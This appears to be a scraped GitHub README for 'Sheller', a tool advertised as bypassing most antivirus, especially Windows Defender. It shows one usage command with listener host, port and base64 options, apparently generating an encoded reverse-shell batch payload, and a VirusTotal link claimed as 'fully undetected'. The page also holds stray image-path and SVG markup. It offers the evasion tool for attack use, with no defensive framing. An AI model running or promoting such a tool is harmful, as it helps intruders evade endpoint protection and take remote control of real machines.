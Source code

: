 # Sheller
Windows Exploitation Tool to bypass most Antivirus espacially Windows Defender

python sheller.py -s xy.bat -lh lh -lp 12 -b64: <a href="https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1">fully undetected AMSI Scan Results</a>

<svg id="circularProgressbar" class="circle-progressbar" height="100" width="100" style="stroke-dashoffset: 0px; stroke-dasharray: 282.743px;"> <circle cx="50" cy="50" r="45" stroke-width="10" fill="transparent" stroke="var(--vt-green-500)"></circle> </svg>
